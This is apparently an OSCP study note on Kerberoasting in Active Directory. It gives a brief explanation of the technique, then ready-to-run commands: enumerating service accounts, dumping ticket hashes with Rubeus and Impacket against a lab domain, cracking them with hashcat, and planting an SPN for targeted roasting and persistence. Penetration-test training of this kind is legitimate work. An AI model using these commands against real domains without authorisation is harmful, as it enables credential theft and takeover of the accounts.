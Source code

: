 ```yaml
---
{"dg-publish":true,"permalink":"/oscp/13-active-directory-attacks/4-kerberoasting/","updated":"2024-01-05T11:36:52.167+01:00"}
---
```


-------
- a.k.a TGS-REP roasting
- Client requests a service ticket generated by the DC.
- No checks are done until the ticket is used to authenticate, since it is hashed.
- If the SPN runs in the context of a computer account, managed service account, or group-managed service account, the password will be randomly generated 120 chars.
- Same is true for "krbtgt" user.
- Hence, user accounts are often the way to crack.
-------------------
### Enumerate Kerberoastable users:
- Setspn:
```
setspn.exe -Q */*
```
- PowerView:
```
Get-NetUser -SPN | select serviceprincipalname
```
- Rubeus:
```
\Rubeus.exe kerberoast /stats
```
-------------
### Local Kerberoasting with Rubeus:
1. Start the roast:
```
.\Rubeus.exe kerberoast /outfile:hashes.kerberoast
```
2. Crack hash on kali:
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
------------
### Remote Kerberoasting with Impacket:
1. Start the roast:
```
sudo impacket-GetUserSPNs -request -dc-ip 192.168.50.70 corp.com/pete
```
2. Crack hash:
```
sudo hashcat -m 13100 hashes.kerberoast /usr/share/wordlists/rockyou/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
```
- Note: If Impacket throughs error "KRB_AP_ERR_SKEW(Clock skew too great)", the time of Kali needs to be synchronized with the DC. Do that using "ntpdate" or "rdate".
-------------------
### Targeted Kerberoasting Abuse/Persistence:
Make user kerberoastable where we have write privileges:
```
Set-DomainObject -Identity <username> -Set @{serviceprincipalname='just/whateverUn1Que'} -verbose
```
